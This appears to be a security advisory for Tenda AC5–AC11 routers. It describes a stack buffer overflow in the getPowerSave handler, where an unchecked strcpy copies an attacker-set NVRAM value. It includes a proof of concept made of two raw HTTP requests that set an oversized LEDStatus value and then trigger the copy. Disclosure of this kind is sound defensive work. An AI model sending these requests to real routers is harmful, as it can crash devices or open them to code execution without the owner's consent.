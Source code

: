 # Tenda Router Vulnerability

This vulnerability exists in  module `LEDControl` of  `/goform/getPowerSave`  and affects multiple devices of the Tenda Router. Equipment models include AC5, AC6, AC7, AC8, AC10, AC11. It affects several firmware versions, including the latest version number published on the official website. And it is RTOS system.

[https://www.tenda.com.cn/searchdown/AC.html](https://www.tenda.com.cn/searchdown/AC.html)

## Vulnerability description

（The pseudocode for the example is the last version of AC6）

![pic/Untitled.png](pic/Untitled.png)


There is a stack buffer overflow vulnerability in the `sub_8008697C` function.(page  /goform/getPowerSave)

In this function, it will use `nvram_get((int)"led_ctl_type");` to  gets an NVRAM variable, which is then placed in a `V3` variable. After that ,it will use `Strcpy (v8, v3);`  to copy the `V3` on the `V8` without any security checks.

The  `led_ctl_type`  NVRAM variable can be controlled in the `sub_8008681C` function.

![pic/Untitled1.png](pic/Untitled1.png)

You can see that it's assigned by `v8`.
![pic/Untitled2.png](pic/Untitled2.png)


Initially `v8` is what we inputed, so the `led_ctl_type` NVRAM variable becomes manageable.

Thus, by first setting the `led_ctl_type` on the page `/goform/setPowerSave` and then requesting the page `/goform/getPowerSave`, an attacker can easily perform a denial-of-service attack or remote code execution using crafted overflow data.

## POC

```
POST /goform/setPowerSave HTTP/1.1
Host: 192.168.0.1
Content-Length: 188
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=LEDControl&LEDStatus=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&LEDCloseTime=10
```

```
GET /goform/getPowerSave?random=0.7312766635668926&modules=LEDControl HTTP/1.1
Host: 192.168.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

### Verify

Vulnerability demo
![pic/Untitled3.png](pic/Untitled3.png)

![pic/Untitled4.png](pic/Untitled4.png)


If the number of characters were longer, it would be enough to overflow.